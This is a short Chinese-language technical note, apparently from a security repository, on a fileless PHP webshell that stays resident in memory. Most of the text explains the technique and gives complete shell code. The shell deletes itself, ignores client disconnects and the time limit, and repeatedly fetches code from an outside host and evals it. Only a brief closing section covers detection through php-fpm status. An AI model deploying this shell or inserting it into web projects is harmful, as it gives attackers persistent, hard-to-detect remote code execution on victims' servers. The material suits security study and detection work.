 # 内存驻留webshell
## 一、攻击原理
php webshell文件执行后删除自身。此webshell在执行后会自身删除，驻留内存之中，无文件残留。其原理主要利用以下方法：
    ignore_user_abort(true); // 后台运行
这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行
    set_time_limit(0); // 取消脚本运行时间的超时上限
括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。
脚本也有可能被内置的脚本计时器中断。默认的超时限制为30秒。
这个值可以通过设置 php.ini 的 max_execution_time 或 Apache .conf 设置中对应的“php_value max_execution_time”参数或者 set_time_limit() 函数来更改。
php删除自身时借助的函数为
    unlink($_SERVER['SCRIPT_FILENAME']);
unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。
简单的webshell脚本：
``` php 
    <?php
        chmod($_SERVER['SCRIPT_FILENAME'], 0777);
        unlink($_SERVER['SCRIPT_FILENAME']);
        ignore_user_abort(true);
        set_time_limit(0);
        echo "success";
        $remote_file = 'http://10.211.55.2/111/test.txt';
        while($code = file_get_contents($remote_file)){
        @eval($code);
        echo "xunhuan";
        sleep(5);
        };
    ?>
```
test.txt中的代码如下：
    file_put_contents('printTime.txt','jweny '.time());
webshell执行后，删除自身，并在该目录生成 printTime.txt，每五秒一次写入一次时间戳。
## 二、检测方案
通过获取php-fpm status：
1. 检查所有php进程处理请求的持续时间
2. 检测执行文件是否在文件系统真实存在
